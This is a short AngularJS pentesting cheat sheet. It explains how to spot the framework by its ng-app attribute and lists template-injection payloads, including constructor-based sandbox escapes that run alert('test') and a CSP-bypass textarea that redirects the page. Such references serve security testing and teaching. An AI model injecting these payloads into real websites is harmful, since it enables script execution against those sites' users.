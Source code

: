 ```yaml
---
title: Angular Pentesting
description: AngularJS is a web application framework.
tags:
    - SSTI
    - Web
refs:
date: 2022-11-22
draft: false
---
```


## HTML Attributes

If a website uses AngularJS framework, the nodes have a “ng-apps” attribute. So you can check it in a HTML source code. 

```html
<div ng-apps>
```

<br />

## Server-Side Template Injection (SSTI)

```txt
{{$on.constructor('alert("test")')()}}
{{constructor.constructor('alert("test")')()}}
<input ng-focus=$event.view.alert('test')>

<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```